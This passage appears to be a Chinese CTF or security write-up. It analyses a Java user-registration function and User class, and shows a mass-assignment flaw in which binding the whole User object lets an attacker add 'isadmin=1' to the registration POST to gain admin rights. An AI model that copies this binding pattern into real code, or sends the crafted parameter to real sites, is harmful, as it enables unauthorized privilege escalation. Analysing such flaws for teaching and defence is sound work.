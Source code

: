 跟入userService.register函数
```
public String register(User user,String repassword) {
    String username = user.getUsername();
    String password = user.getPassword();

    if(StringUtils.isBlank(username.trim()) || StringUtils.isBlank(password.trim())){
        return "You need set username and password";
    }   

    int uid = userMapper.SelectIdByUsername(username);

    if(uid>0){
        return "This username has been registered!";
    }

    if(!password.equals(repassword)){
        return "repassword";
    }

    userMapper.InsertUser(user);

    return "ok";
}
```

仔细观察我们可以发现，虽然函数中从user中获取了username和password并进入`userMapper.SelectIdByUsername`验证，但在插入数据的时候仍然直接传入了user类。

这里我们看看user类的定义（这应该是类似于python中model的定义方式）
```
public class User{
    private Integer id;
    private String username;
    private String password;
    private String headurl;
    private Boolean isadmin;

    public User(Integer id, String username, String password, String headurl, Boolean isadmin) {
        this.id = id;
        this.username = username;
        this.password = password;
        this.headurl = headurl;
        this.isadmin = isadmin;
    }
...
```

我们可以注意到这个函数在初始化时接受了isadmin，而在控制器中路由接收到这个参数时也没有做任何的处理，所以这里存在**AutoBuilding漏洞**

当我们在注册的时候，原post参数为
```
username=test&password=test&repassword=test
```
我们只要加入isadmin即可
```
username=test&password=test&repassword=test&isadmin=1
```
